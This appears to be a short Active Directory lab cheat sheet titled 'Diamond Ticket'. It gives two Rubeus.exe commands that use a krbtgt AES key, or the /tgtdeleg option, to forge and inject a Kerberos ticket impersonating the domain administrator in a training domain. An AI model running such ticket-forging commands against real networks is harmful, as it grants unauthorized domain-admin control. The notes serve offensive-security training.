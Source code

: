 # Diamond Ticket
## Rubeus.exe
### We would still need krbtgt AES keys. Use the following Rubeus command to create a diamond ticket (note that RC4 or AES keys of the user can be used too)
```powershell
Rubeus.exe diamond /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /user:studentuserx /password:studentuserxpassword /enctype:aes /ticketuser:administrator /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### We could also use /tgtdeleg option in place of credentials in case we have access as a domain user
```powershell
Rubeus.exe diamond /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
